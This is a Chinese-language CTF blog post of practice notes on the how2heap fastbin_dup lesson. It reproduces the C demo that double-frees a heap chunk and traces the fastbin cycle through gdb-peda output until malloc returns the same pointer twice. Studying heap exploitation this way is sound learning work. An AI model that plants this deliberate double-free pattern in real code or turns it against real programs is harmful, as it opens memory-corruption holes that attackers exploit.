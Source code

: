 ```yaml
---
title: how2heap-02 fastbin-dup实践笔记
time: 2017-08-05
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

# 示例源码

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("This file demonstrates a simple double-free attack with fastbins.\n");

	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
  /* [1] */
	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);
  /* [2] */
	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);
  /* [3] */
	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);
  /* [4] */
	printf("Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	printf("1st malloc(8): %p\n", malloc(8));
	printf("2nd malloc(8): %p\n", malloc(8));
	printf("3rd malloc(8): %p\n", malloc(8));
  /* [5] */
}
```

本节示例的漏洞程序可以从此处下载： [fastbin_dup](/files/how2heap/fastbin_dup)

# 漏洞分析

程序首先向操作系统申请了3块大小为`8bytes`的内存，而后依次释放 `a` `b` `a`，再重新申请了3块大小依旧为`8bytes`的内存。我们通过巧妙地欺骗glibc的`free`操作从而可以泄露出一块已经被分配的内存指针

我们接下来用gdb来进行调试来看看具体的内存情况，首先我们执行到上面源码的`[1]`处，程序申请了3块内存，这时来看看堆的情况

``` bash
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x602000
chunk      0x602000         0x20            (inuse)
chunk      0x602020         0x20            (inuse)
chunk      0x602040         0x20            (inuse)
chunk      0x602060         0x20fa0         (top)
sbrk_end   0x602000
```

可以看见，操作系统给我们分配了3个chunk，继续向下到`[2]`处，这时将chunk `a`释放

``` bash
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x602000
chunk      0x602000         0x20            (inuse)
chunk      0x602020         0x20            (inuse)
chunk      0x602040         0x20            (inuse)
chunk      0x602060         0x20fa0         (top)
sbrk_end   0x602000
```

这时敲入`heapls`命令查看堆情况，但是却发现第一个chunk的状态依旧是`inuse`？为什么明明被释放了，状态却依旧没变呢？因为这是因为chunk的大小为`8bytes`，chunk `a`虽然被释放，但是被链入了`fastbins`里，而`fastbins`为了快速释放分配，并不会修改每个`chunk`的`PREV_INUSE (P)`，简称`P位`，因此我们看到的就是chunk `a`依旧是`inuse`的状态

我们可以敲入`freebins`和`fastbins`进行验证

``` bash
gdb-peda$ freebins
fast bin 0 @ 0x602000
	free chunk @ 0x602000 - size 0x20
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602000 ] (32)
[ fb 1 ] 0x7ffff7dd3770  -> [ 0x0 ]
[ fb 2 ] 0x7ffff7dd3778  -> [ 0x0 ]
[ fb 3 ] 0x7ffff7dd3780  -> [ 0x0 ]
[ fb 4 ] 0x7ffff7dd3788  -> [ 0x0 ]
[ fb 5 ] 0x7ffff7dd3790  -> [ 0x0 ]
[ fb 6 ] 0x7ffff7dd3798  -> [ 0x0 ]
[ fb 7 ] 0x7ffff7dd37a0  -> [ 0x0 ]
[ fb 8 ] 0x7ffff7dd37a8  -> [ 0x0 ]
[ fb 9 ] 0x7ffff7dd37b0  -> [ 0x0 ]
```

那么我们继续运行，到`[3]`的位置，这是将chunk `b`释放掉了，继续查看堆情况

``` bash
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x602000
chunk      0x602000         0x20            (inuse)
chunk      0x602020         0x20            (inuse)
chunk      0x602040         0x20            (inuse)
chunk      0x602060         0x20fa0         (top)
sbrk_end   0x602000
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602020 ] (32)
                            [ 0x602000 ] (32)
[ fb 1 ] 0x7ffff7dd3770  -> [ 0x0 ]
[ fb 2 ] 0x7ffff7dd3778  -> [ 0x0 ]
[ fb 3 ] 0x7ffff7dd3780  -> [ 0x0 ]
[ fb 4 ] 0x7ffff7dd3788  -> [ 0x0 ]
[ fb 5 ] 0x7ffff7dd3790  -> [ 0x0 ]
[ fb 6 ] 0x7ffff7dd3798  -> [ 0x0 ]
[ fb 7 ] 0x7ffff7dd37a0  -> [ 0x0 ]
[ fb 8 ] 0x7ffff7dd37a8  -> [ 0x0 ]
[ fb 9 ] 0x7ffff7dd37b0  -> [ 0x0 ]
gdb-peda$ freebins
fast bin 0 @ 0x602020
	free chunk @ 0x602020 - size 0x20
	free chunk @ 0x602000 - size 0x20
```

我们可以发现，`free(b)`之后，chunk `b`被链入了`fastbins`中，但是chunk `b`被链进了`a`的前面，我们继续向下，到`[4]`处，再次将`a`释放，这时我们再选择打印`freebins`和`fastbins`会发现，一直在输出chunk `a`和chunk `b`，意思就是在`freebins`和`fastbins`中，chunk `a`和chunk `b`形成了一个循环

这是因为再次`free(a)`后，glibc重新将chunk `a`链入`fastbins`中并且位于chunk `b`之上，也就意味着形成了`[0x602000] -> [0x602020] -> [0x602000]`这样的循环

这时我们向下执行到`[5]`处，这时我们申请了3块内存

``` bash
1st malloc(8): 0x602010
2nd malloc(8): 0x602030
3rd malloc(8): 0x602010
```

我们看到，`fastbins`中最先将新加入的chunk `a`分配给用户，也即是`[0x602000] -> [0x602020] -> [0x602000]`的第一个`[0x602000]`
之后再申请相同空间，分配掉了加入的chunk `b`给用户，也就是`[0x602000] -> [0x602020] -> [0x602000]`中的第二个`[0x602020]`
最后第三次申请，分配回我们最先free掉的chunk `a`，也就是`[0x602000] -> [0x602020] -> [0x602000]`中第三个`[0x602000]`

那么我们可以得到结论

> 对于fastbins，我们通过double free泄露出一个堆块的指针
